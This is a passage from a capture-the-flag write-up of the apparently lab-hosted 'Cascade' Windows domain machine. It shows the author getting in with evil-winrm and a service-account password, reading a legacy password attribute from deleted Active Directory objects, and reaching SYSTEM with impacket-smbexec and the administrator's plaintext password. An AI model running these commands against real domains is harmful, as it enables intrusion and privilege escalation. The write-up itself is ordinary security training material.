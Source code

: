 - Got initial access using winrm.
```sh
evil-winrm -i casc-dc1.cascade.local \
	-u 'arksvc@cascade.local' \
	-p 'w3lc0meFr31nd'
```

	After we use a simple Get-AdObject to retrieve objects that had been deleted from AD.

	And we found the same cascadeLegacyPwD property. This that it was fairly easy. But the first time around, it took me two days.
```sh
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```
![](images/tempadmin.png)

	 Yep , we got the administrator's password and was so cute. 
![](images/bacteria.png)

	And that's how we got system!
```sh
impacket-smbexec 'CASCADE.LOCAL/administrator:baCT3r1aN00dles@cascade.local'
```
![](images/system.png)

---